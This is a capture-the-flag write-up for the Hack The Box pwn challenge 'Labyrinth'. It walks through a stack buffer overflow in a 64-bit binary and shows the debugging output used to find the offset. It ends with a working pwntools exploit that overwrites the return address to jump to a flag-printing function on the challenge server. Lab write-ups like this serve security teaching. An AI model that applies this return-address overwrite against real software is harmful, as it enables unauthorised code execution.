




# [Pwn - easy] Labyrinth
A 64-bit binary file is given, and the equivalent made available via TCP.

```bash
┌──(vagrant㉿kali)-[/vagrant/ctf/pwn/challenge]
└─$ file labyrinth
labyrinth: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, BuildID[sha1]=86c87230616a87809e53b766b99987df9bf89ad8, for GNU/Linux 3.2.0, not stripped

┌──(vagrant㉿kali)-[/vagrant/ctf/pwn/challenge]
└─$ checksec --file=labyrinth
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Full RELRO      No canary found   NX enabled    No PIE          No RPATH   RW-RUNPATH   83 Symbols	  No	0		4		labyrinth
```

Opening the binary with [Ghidra](https://ghidra-sre.org/) reveals that this binary is about buffer overflow via `fgets` reading `0x44` bytes.



At the adress `0x00401255` there's an `escape_plan` function that will read the flag from file and print it.



The aim is thus to reach `fgets` by inputing `069`, then overflow `local_38` in order to control the `RIP` Instruction Pointer. The value to set in `RIP` will be an address in the `escape_plan` 
function, around the address `0x00401255`. Since the binary is a 64-bits `LSB` (Little Endian, Least Significant Byte), addresses will need to be reversed and be on 8 octets: for instance here 
`\x55\x12\x40\x00\x00\x00\x00\x00`.

Giving it a try with [gdb-peda](https://github.com/longld/peda), with a pattern of length `68` (the `0x44` in `fgets`), gives us the info that `RBP` is overriden at an offset of 48.

```bash
┌──(vagrant㉿kali)-[~]
└─$ msf-pattern_create -l 68
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac

┌──(vagrant㉿kali)-[/vagrant/ctf/pwn/challenge]
└─$ gdb ./labyrinth
[...]
gdb-peda$ r <<< $(python -c "print('069\n'+'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac')")
[...]

▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒
▒-▸        ▒           ▒          ▒
▒-▸        ▒     O     ▒          ▒
▒-▸        ▒    '|'    ▒          ▒
▒-▸        ▒    / \    ▒          ▒
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▲△▲△▲△▲△▲△▒

Select door:

Door: 001 Door: 002 Door: 003 Door: 004 Door: 005 Door: 006 Door: 007 Door: 008 Door: 009 Door: 010
Door: 011 Door: 012 Door: 013 Door: 014 Door: 015 Door: 016 Door: 017 Door: 018 Door: 019 Door: 020
Door: 021 Door: 022 Door: 023 Door: 024 Door: 025 Door: 026 Door: 027 Door: 028 Door: 029 Door: 030
Door: 031 Door: 032 Door: 033 Door: 034 Door: 035 Door: 036 Door: 037 Door: 038 Door: 039 Door: 040
Door: 041 Door: 042 Door: 043 Door: 044 Door: 045 Door: 046 Door: 047 Door: 048 Door: 049 Door: 050
Door: 051 Door: 052 Door: 053 Door: 054 Door: 055 Door: 056 Door: 057 Door: 058 Door: 059 Door: 060
Door: 061 Door: 062 Door: 063 Door: 064 Door: 065 Door: 066 Door: 067 Door: 068 Door: 069 Door: 070
Door: 071 Door: 072 Door: 073 Door: 074 Door: 075 Door: 076 Door: 077 Door: 078 Door: 079 Door: 080
Door: 081 Door: 082 Door: 083 Door: 084 Door: 085 Door: 086 Door: 087 Door: 088 Door: 089 Door: 090
Door: 091 Door: 092 Door: 093 Door: 094 Door: 095 Door: 096 Door: 097 Door: 098 Door: 099 Door: 100

>>
You are heading to open the door but you suddenly see something on the wall:

"Fly like a bird and be free!"

Would you like to change the door you chose?

>>
[-] YOU FAILED TO ESCAPE!


Program received signal SIGSEGV, Segmentation fault.
Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled off'.

Warning: 'set logging on', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled on'.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x7ffff7ea7a37 (<write+23>:	cmp    rax,0xfffffffffffff000)
RDX: 0x0
RSI: 0x7fffffffc0d0 --> 0x6d31333b315b1b0a
RDI: 0x7fffffffbfb0 --> 0x7ffff7df50d0 (<funlockfile>:	endbr64)
RBP: 0x6241376241366241 ('Ab6Ab7Ab')
RSP: 0x7fffffffe228 ("8Ab9Ac0Ac1A")
RIP: 0x401602 (<main+509>:	ret)
R8 : 0x23 ('#')
R9 : 0x7fffffff
R10: 0x0
R11: 0x246
R12: 0x7fffffffe338 --> 0x7fffffffe5fd ("/vagrant/ctf/pwn/challenge/labyrinth")
R13: 0x401405 (<main>:	push   rbp)
R14: 0x0
R15: 0x7ffff7ffd040 --> 0x7ffff7ffe2e0 --> 0x0
EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4015f7 <main+498>:	call   0x4010c0 <fprintf@plt>
   0x4015fc <main+503>:	mov    eax,0x0
   0x401601 <main+508>:	leave
=> 0x401602 <main+509>:	ret
   0x401603:	cs nop WORD PTR [rax+rax*1+0x0]
   0x40160d:	nop    DWORD PTR [rax]
   0x401610 <__libc_csu_init>:	push   r15
   0x401612 <__libc_csu_init+2>:	lea    r15,[rip+0x2727]        # 0x403d40
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe228 ("8Ab9Ac0Ac1A")
0008| 0x7fffffffe230 --> 0x413163 --> 0x0
0016| 0x7fffffffe238 --> 0x401405 (<main>:	push   rbp)
0024| 0x7fffffffe240 --> 0x100000000
0032| 0x7fffffffe248 --> 0x7fffffffe338 --> 0x7fffffffe5fd ("/vagrant/ctf/pwn/challenge/labyrinth")
0040| 0x7fffffffe250 --> 0x0
>0048| 0x7fffffffe258 --> 0xc4cd354ce8e5d3cf
0056| 0x7fffffffe260 --> 0x7fffffffe338 --> 0x7fffffffe5fd ("/vagrant/ctf/pwn/challenge/labyrinth")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000401602 in main ()
```



```bash
┌──(vagrant㉿kali)-[~]
└─$ msf-pattern_offset  -l 68 -q 6241376241366241
[*] Exact match at offset 48
```

Since `RIP` is 8 bytes from `RBP`, in order to override it the first part of input is `"069\n" + "A"*48 + "B*8"`. However we hit a snag with the adress to override `RIP` with: the first instruction of `escape plan` is `push %rbp`.

```bash
┌──(vagrant㉿kali)-[/vagrant/ctf/pwn/challenge]
└─$ objdump -D labyrinth | grep -A5 escape_plan
0000000000401255 <escape_plan>:
  401255:	55                   	push   %rbp
  401256:	48 89 e5             	mov    %rsp,%rbp
  401259:	48 83 ec 10          	sub    $0x10,%rsp
  40125d:	bf 0a 00 00 00       	mov    $0xa,%edi
  401262:	e8 c9 fd ff ff       	call   401030 <putchar@plt>
```

Since it was overridden by a bunch of Bs, it leads to a SEGFAULT. Let's take the next instruction's address: `0x401256`. The input becomes: `"069\n" + "A"*48 + "B*8" + "\x56\x12\x40\x00\x00\x00\x00\x00"`. Testing it locally with `gdb-peda` gives the flag:

```bash
gdb-peda$ r <<< $(python -c "print('069\n'+'A'*48 + 'B'*8 + '\x56\x12\x40\x00\x00\x00\x00\x00')")
[...]
Congratulations on escaping! Here is a sacred spell to help you continue your journey:
HTB{f4k3_fl4g_4_t35t1ng}
```

The final exploit looks like:

```python
from pwn import *

r = remote('138.68.162.218',30843)
lol = r.readuntil(b'>> ')
# print(lol)
r.send(b'069' + b"\n")
lol = r.readuntil(b'>> ')
r.send(b'A'*48 + b'B'*8 + b'\x56\x12\x40\x00\x00\x00\x00\x00')
r.send(b"\n")
lol=r.readall()
print(lol)
r.close()
```

And gives the flag!


